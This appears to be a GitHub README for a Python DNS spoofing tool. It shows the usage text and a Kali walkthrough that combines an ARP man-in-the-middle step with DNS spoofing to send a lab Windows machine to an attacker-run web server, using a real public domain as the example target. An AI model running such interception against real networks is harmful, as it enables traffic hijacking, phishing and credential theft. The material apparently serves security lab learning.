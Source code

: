 # DNS Spoofer

## Requirements

* Python 3
* Scapy and netfilter modules
* Domain to be spoofed
* IP address webserver to redirect to

## Usage

```shell
usage: dns_spoofer.py [-h] [-d DOMAIN] [-r IP] [-q DESTINATION]

DNS spoof tool

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain to spoof
  -r IP, --ip IP        IP address to redirect to
  -q DESTINATION, --destination DESTINATION
                        Forward or local

Example: 
            dns_spoofer.py -q forward               # spoof domain on target (Windows)
            dns_spoofer.py -d sqa.fyicenter.com     # domain
            dns_spoofer.py -r 192.168.122.108       # redirection address
            dns_spoofer.py                          # with defaults local, apache2 and sqa.fyicenter.com
```

### Kicking the tyres

Choose a domain to spoof and check it is reachable:

```shell
@kali:~$ ping -c 1 sqa.fyicenter.com
PING sqa.fyicenter.com (74.208.236.35) 56(84) bytes of data.
64 bytes from 74-208-236-35.elastic-ssl.ui-r.com (74.208.236.35): icmp_seq=1 ttl=52 time=131 ms

--- sqa.fyicenter.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 131.125/131.125/131.125/0.000 ms

```

Become MitM by running the [arp_spoofer](/arp_spoofer/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 63
```

Run DNS spoofer:

```shell
@kali:~$ sudo python3 dns_spoofer.py -q forward
[+] Starting apache2 service...
              
```

On Windows testlab machine, visit http://sqa.fyicenter.com in browser and check that the Kali apache server comes up instead.

```shell
@kali:~$ sudo python3 dns_spoofer.py
[+] Starting apache2 service...
[+] Spoofing Target
                   
```

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)